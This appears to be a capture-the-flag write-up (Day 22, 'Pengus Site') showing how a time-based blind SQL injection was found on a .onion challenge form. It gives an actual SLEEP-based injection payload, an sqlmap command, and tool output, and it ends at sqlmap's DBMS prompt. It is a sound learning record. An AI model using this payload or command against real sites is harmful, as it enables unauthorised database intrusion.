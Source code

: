 Day 22: Pengus Site
-------------------
Since the website is a .onion we install Tor browser from [1] and install it. Then to be able to test the web site with some comfort we proxy Burp through Tor as explained in [2]. Then we can start serious business :)

There is only one visible page with one form, a sample request to that form would be:
```
POST / HTTP/1.1
Content-Length: 5
Accept-Encoding: gzip,deflate
Connection: close
Accept: */*
User-Agent: sqlmap/1.0.11#stable (http://sqlmap.org)
Host: 7y4b2aymlqwmkyuh.onion
Cookie: PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded; charset=utf-8

k=foo
```

The response, however, looks to be always the same whichever the input. We fire an active scan through Burp and in the result we see "TRACE method enabled", "Cross-Site Request Forgery" that are both interesting but on top is "SQL Injection" which is way more tempting. When looking closer, we see that the following request has an execution time of > 20 seconds:
```
POST / HTTP/1.1
Host: 7y4b2aymlqwmkyuh.onion
Cookie: PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3
Connection: close
Content-Length: 48

k=foobar'%2b(select*from(select(sleep(20)))a)%2b'
```

So the form is vulnerable to time-based blind SQL injection. There is a tool that fits perfectly to exploit this kind of vulnerability, please welcome sqlmap! Here is the run of sqlmap to test and find the vulnerability:
```bash
$ sqlmap --proxy=http://127.0.0.1:8080 -u http://7y4b2aymlqwmkyuh.onion --cookie="PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3" --data="k=foo" --technique T --level 2 --risk 2
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.0.11#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 07:26:12

[07:26:12] [INFO] testing connection to the target URL
[07:26:13] [WARNING] heuristic (basic) test shows that POST parameter 'k' might not be injectable
[07:26:58] [INFO] testing for SQL injection on POST parameter 'k'
[07:26:58] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[07:26:58] [WARNING] time-based comparison requires larger statistical model, please wait............................ (done)
[07:27:25] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[07:27:40] [INFO] POST parameter 'k' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
```
